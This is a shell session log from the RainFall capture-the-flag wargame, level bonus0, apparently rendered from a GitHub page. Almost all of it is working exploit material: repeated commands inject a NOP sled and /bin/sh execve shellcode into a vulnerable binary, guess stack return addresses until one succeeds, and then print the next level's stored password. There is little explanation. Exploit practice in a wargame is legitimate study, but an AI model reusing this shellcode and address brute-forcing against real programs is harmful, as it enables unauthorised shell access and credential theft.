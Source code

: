 ﻿```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xd0\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
^C
bonus0@RainFall:~$
```

```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xcc\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
^C
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xca\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
^C
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xc8\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
^C
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xc0\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
Illegal instruction (core dumped)
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xc4\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
^C
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xc2\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
^C
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\x12\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------���- --------------���-
^C
Segmentation fault (core dumped)
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xc1\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
^C
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xc0\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
 -
 -
��������������������--------------����- --------------����-
test
Illegal instruction (core dumped)
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "-" * 14 + "\xc1\xe6\xff\xbf" + "-" * 1'; cat ) | ./bonus0
```

(python -c 'print "A" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * (4096 - 1 - 20 - 28) + "\n"'; python -c 'print "C" * 14 + "\xc1\xe6\xff\xbf" + "D" * 1')